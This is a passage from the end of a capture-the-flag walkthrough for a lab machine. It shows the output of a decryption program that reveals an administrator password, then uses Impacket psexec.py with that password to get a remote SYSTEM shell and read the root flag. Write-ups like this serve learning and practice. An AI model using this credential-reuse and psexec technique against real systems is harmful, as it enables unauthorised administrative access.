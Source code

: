 ```C
        }
    }
}

```

let's compile it and run. 

```bash
mcs file.cs

./file.exe

#result 
Texte chiffré : bxjqyRhq7IDsx/0szydo2spMD5zuNojxxPgGgPrAZVpgPW4Xdq58LGDUCa1KMg7y
Texte déchiffré : XtH4nkS4Pl4y1nGX
```

let's try to connect with administrator account on the target 
```
psexec.py administrator:XtH4nkS4Pl4y1nGX@target_ip

Impacket for Exegol - v0.10.1.dev1+20230806.34223.faf17b2 - Copyright 2022 Fortra - forked by ThePorgs

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file EQURMurf.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service ejeB on 10.10.10.178.....
[*] Starting service ejeB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

#get the flag 
C:\> type C:\Users\Administrator\Desktop\root.txt
```

Lets go we are Admin !!
(easy machine Really 😅?)
